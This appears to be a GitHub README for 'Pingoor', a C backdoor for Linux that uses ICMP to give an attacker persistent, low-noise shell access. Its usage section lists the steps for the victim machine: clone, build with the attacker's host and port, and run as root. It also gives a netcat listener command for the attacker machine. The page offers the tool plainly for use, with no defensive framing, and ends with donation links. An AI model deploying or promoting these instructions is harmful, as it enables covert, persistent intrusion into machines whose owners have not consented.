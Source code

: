 <h1 align="center">「🚪」About Pingoor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Pingoor is a backdoor developed in C for the GNU/Linux operating system. Its main characteristic is to use the ICMP protocol to give the attacker access to the shell of a machine, making its access persistent with little noise.</p>

## How to Use

```
# Hacked machine
$ git clone https://github.com/MrEmpy/Pingoor.git
$ cd Pingoor
$ HOST=<YOURHOST> PORT=<YOURPORT> make
$ sudo ./pingoor
```

```
# Attacker machine
nc -lnvp <YOURPORT>
```

## Buy me a coffee?

<img src="https://static.livepix.gg/images/logo.svg" height="50" widght="50">

[LivePix](https://livepix.gg/mrempy)

<img src="https://play-lh.googleusercontent.com/aMb_Qiolzkq8OxtQZ3Af2j8Zsp-ZZcNetR9O4xSjxH94gMA5c5gpRVbpg-3f_0L7vlo" height="50" widght="50">

[Buy me a coffe](https://www.buymeacoffee.com/mrempy)
